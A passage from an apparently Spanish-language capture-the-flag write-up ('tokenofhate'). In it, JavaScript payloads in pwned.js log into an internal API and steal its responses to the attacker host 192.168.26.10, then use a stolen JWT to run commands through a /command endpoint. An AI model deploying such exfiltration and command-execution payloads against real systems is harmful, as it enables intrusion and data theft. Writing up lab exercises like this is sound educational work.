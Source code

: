 Veremos que ningún usuario es capaz de logearse en la **API**.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315231256.png>)

Modificaremos el nombre de usuario remplazando los caracteres especiales (**Unicode**) por caracteres **ASCII**. Tal y como vemos a continuación, el usuario **Jose** tiene capacidad de logearse en la **API**.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315231340.png>)

Gracias al siguiente contenido del `pwned.js`, conseguiremos logearnos con las credenciales **Jose:FuLqqEAErWQsmTQQQhsb**.

```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
let data = JSON.stringify({"username": "Jose", "password": "FuLqqEAErWQsmTQQQhsb"})
x.open("POST","http://localhost:3000/login");
x.setRequestHeader("Content-Type", "application/json");
x.send(data);
```

En la respuesta de la petición, veremos un mensaje y un token necesario para acceder al endpoint **/command**, el cual aparentemente nos permite ejecutar comandos.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315192528.png>)

Volveremos a modificar el `pwned.js`, para ejecutar un `ping` a nuestra máquina de atacante.

```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
let data = JSON.stringify({"command": "ping -c 1 192.168.26.10", "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikpvc2UiLCJyb2xlIjoidXNlciIsImlhdCI6MTc0MjA2MzEwMSwiZXhwIjoxNzQyMDY2NzAxfQ.jeAgJaUcaF9gtDJYzc8ig9nxuP9D7ckC1s8g5Lh7rmM"})
x.open("POST","http://localhost:3000/command");
x.setRequestHeader("Content-Type", "application/json");
x.send(data);
```
